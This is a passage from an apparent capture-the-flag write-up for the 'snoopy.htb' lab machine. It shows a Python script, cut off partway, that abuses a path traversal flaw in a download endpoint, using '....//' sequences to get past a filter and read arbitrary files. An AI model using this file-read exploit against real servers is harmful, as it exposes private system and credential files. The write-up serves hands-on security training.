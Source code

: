 ![image-20230509154124652](../img/image-20230509154124652.png)

#### Script

To enumerate the host, I’ll write a quick Python script to allow me to easily
pull files and unzip them. I’ll walk through building the script in [this
video](https://www.youtube.com/watch?v=2a4OJeSZ_N0):

The final code looks like:

    
    
    #!/usr/bin/env python3
    
    import requests
    import sys
    import zipfile
    from io import BytesIO
    
    if len(sys.argv) < 2:
        print(f"usage: {sys.argv[0]} [full path of file]")
        sys.exit()
    
    fpath = sys.argv[1]
    outfile = sys.argv[2] if len(sys.argv) > 2 else None
    
    resp = requests.get(f'http://snoopy.htb/download?file=....//....//....//....//....//{fpath}')
    
    if len(resp.content) == 0:
        print(f"File not found: {fpath}")
        sys.exit()
    